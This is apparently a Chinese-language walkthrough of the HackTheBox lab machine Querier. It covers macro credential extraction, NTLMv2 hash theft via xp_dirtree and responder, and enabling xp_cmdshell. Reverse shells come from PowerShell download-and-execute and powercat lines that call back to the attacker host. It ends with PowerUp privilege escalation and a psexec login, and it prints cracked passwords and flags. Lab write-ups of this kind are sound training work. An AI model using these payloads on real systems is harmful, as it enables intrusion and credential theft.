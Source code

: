 [TOC]

# Note —— Querirer

> victim: 10.10.10.125
>
> local: 10.10.14.10

## SMB

尝试默认账户和空账户

```bash
smbclient -L 10.10.10.125 -U ''%'' #无法登录
smbclient -L 10.10.10.125 -U 'guest'%''
```

guest登陆后可以看到Reports文件夹，进去看看

```bash
smbclient //10.10.10.125/Reports -U 'guest'%''
> ls
> get "Currency Volume Report.xlsm"
```

打开后看不到内容,xlsm格式说明其存在宏，我们以压缩包打开，在路径`xl\`下存在vba宏代码编译文件

对其进行反编译，使用**olevba**

```bash
sudo pip install -U oletools # 安装oletools分析套件
olevba vbaProject.bin
```

在代码中找到数据库的用户密码信息

- `Uid: reporting`
- `Pwd: PcwTWTHRwryjc$c6`
- `Database: volume`

## Mssql

利用得到的账号登陆，mssql的认证方式有用户认证和windows账号认证两种, 由于reporting账号是windows账号, 因此需要增加参数-windows-auth进行登陆并指定用户域querier/，特殊符号$需要进行转义

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```
mssql操作
```mssql
enable_xp_cmdshell --尝试启用shell
```

```
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

失败

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' ) --检查是有否SA权限
```

```
0
```

没有，继续搜索

### 窃取HASH——利用smb和xp_dirtree/xp_fileexist

先在本地打开responder(新学到的技术)

> responder 一款嗅探工具，用来窃取连接者的信息
>
> 连接上来的连接都返回回应，告诉对方没错就是我，来窃取NTLMv2哈希

```bash
sudo responder -I tun0
```

在受害机器上执行下方两句之一

```mssql
exec xp_dirtree '\\10.10.14.10\share\file'
exec xp_fileexist '\\10.10.14.10\share\file'
```

捕获到信息，保存至`res/NTLMv2.md`

将HASH复制到文件里，命名为hash，使用john破解

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
sudo john hash -w=/usr/share/wordlists/rockyou.txt
```

得到

```
corporate568     (mssql-svc)
```

### 高权限账号登录

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc:corporate568@10.10.10.125
```

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' )
-- 1
enable_xp_cmdshell
--运行成功
xp_cmdshell whoami
xp_cmdshell systeminfo
-- 内容保存到res/systeminfo.md
```

## 使用Powershell脚本获取shell

### 尝试ps payload——失败

本机开启nc监听443端口和文件下载用HTTP

```bash
sudo python3 -m http.server
```

目标上执行命令

```mssql
xp_cmdshell powershell iex(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.10:8000/reverse.ps1\")
```

被AV杀了.....阿这

### 尝试Powercat base64 payload——失败

本机生成独立payload并base64编码

```powershell
powercat -c 10.10.14.10 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```mssql
powershell -E <代码见res/systeminfo.md>
```

代码太长，无法执行，先当作文件传过去

```mssql
xp_cmdshell certutil -f -urlcache http://10.10.14.10:8000/encodedreverseshell.ps1 a.bat
```

执行失败，certutil没法用

### 尝试单行ps payload——失败

目标上执行命令

```mssql
xp_cmdshell powershell -c \"$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.10'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);    $sendback =(iex $data 2>&1 | Out-String );    $sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   $stream.Write($sendbyte,0,$sendbyte.Length);    $stream.Flush();}\"
```

木有反应，转义字符太多，太难顶，不折腾了

### 利用powercat直接payload——成功

```bash
xp_cmdshell powershell -noprofile IEX(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.10:8000/powercat.ps1\");powercat -c 10.10.14.10 -p 443 -e powershell
```

成功了，Powercat，永远的神

得到user.txt

```
c37b41bb669da345bb14de50faab3c16
```

## PRIVILEGE ESCALATION

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1
echo Invoke-AllChecks >> PowerUp.ps1
```

on victim

```powershell
iex(new-object net.webclient).downloadstring( "http://10.10.14.10:8000/PowerUp.ps1")
```

结果见`PowerUp.md`

GPP文件泄漏，属于GPP漏洞，一般只在2008没打漏洞的版本上存在

> 参考文章：https://xz.aliyun.com/t/7784
>
> 相关介绍：
>
> If sysadmins attempt to mitigate the GPP vulnerability by deleting the associated GPO, the
> cached groups.xml files will remain on the end points. However, if the GPO containing the GPP
> setting is unlinked from the GPO, the cached groups.xml files will be removed.
>
> GPO：组策略
>
> GPP：组策略选项

得到Administrator的新密码

```
MyUnclesAreMarioAndLuigi!!1!
```

获取系统级Shell

```bash
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator:'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
```

得到root

```
b19c3794f786a1fdcf205f81497c3592
```

相比`psexec`，`wmiexec`隐蔽性更高，更推荐后者，两者适用环境也相似

`wmiexec`既可以通过账号密码登陆，也可以通过hash

都主要依赖445端口